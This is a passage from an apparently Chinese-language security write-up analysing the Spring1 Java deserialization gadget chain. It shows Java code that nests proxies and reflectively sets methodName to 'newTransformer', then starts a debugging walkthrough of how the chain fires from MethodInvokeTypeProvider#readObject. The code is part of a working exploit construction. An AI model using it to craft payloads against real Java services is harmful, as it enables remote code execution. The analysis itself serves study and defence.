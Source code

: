 ```plain
        // typeTemplateProxy.hashCode();

        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?>       clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        // Util.SeralizeUtil.writeObjectToFile(objects,"spring1");
        Util.SeralizeUtil.readFileObject("spring1");
```

接下来通过调试分析一下完整的Gadget链触发的过程。

程序反序列化的入口点位于：`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider#readObject`。当前的`provider`是一个`AnnotationInvocationHandler`动态代理类，`memberValues`存储的`key`为getType,对应的`value`是一个ObjectFactoryDelegatingInvocationHandler动态代理的类，其中的`objectFactory`成员变量同样也是一个由`AnnotationInvocationHandler`动态代理的类。
